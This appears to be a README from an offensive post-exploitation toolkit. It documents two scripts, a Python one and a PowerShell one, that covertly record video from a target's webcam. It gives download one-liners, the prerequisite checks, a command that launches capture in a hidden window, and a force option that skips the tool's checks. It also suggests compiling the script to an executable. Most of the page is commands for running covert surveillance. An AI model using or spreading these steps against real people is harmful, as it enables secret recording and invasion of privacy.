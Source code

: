 ## WebCam.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[WebCam](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/WebCam.py)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon3 its installed
[bool](python3 -V)

#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

[OPTIONAL] #Install opencv and numpy modules
pip3 install opencv-python
```

<br />

**execute:**
```powershell
#Search for python 'site-packages' directory
gci "$Env:LOCALAPPDATA\Programs" -Recurse -Force|?{$_.PSIsContainer -Match "True" -and $_.Name -iMatch 'site-packages'}

#Edit WebCam.py and change next cmdline to point to your 'python\site-packages' directory
#Remark: remmenber to add double backslashs to your path ( eg. C:\\path\\path\\path\\path )
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python3 -ArgumentList "WebCam.py"

#Stop capture
Stop-Process -Name "python3.*" -Force
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
WebCam.py can be compiled to exe using pyinstaller: pyinstaller –onefile "WebCam.py"
```

<br /><br />


## Invoke-WebCamAvi.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WebCamAvi](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1" -OutFile "Invoke-webcamAvi.ps1"
```

<br />

**Prerequesites tests:**
```powershell
#Mandatory requirement
[bool](python3 -V)

#cmdlet will auto-install the opencv-python package
[bool](pip3 list|findstr /C:"opencv-python")
```

<br />

**run cmdlet:**
```powershell
#Get module help
Get-Help .\Invoke-webcamAvi.ps1 -full

#Record webcam live stream for 15 seconds time
.\Invoke-webcamAvi.ps1 -RecTime '15'

#Record webcam live and use %TMP% as working directory
.\Invoke-webcamAvi.ps1 -WorkingDir "$Env:TMP"

#Record webcam live and auto-start AVI file after finish?
.\Invoke-webcamAvi.ps1 -AutoView 'true'

#Bypass cmdlet internal tests and force execution?
.\Invoke-WebCamAvi.ps1 -force 'true'
```

<br />

**Final Notes:**
```powershell
Remark: Python3 its mandatory requiremente to run cmdlet..
Invoke-webcamAvi cmdlet automates the execution of 'WebCam.py' and python packages dependencies.

Video recording (silent) its stored on cmdlet working directory under the name of: "outpy.avi"
```
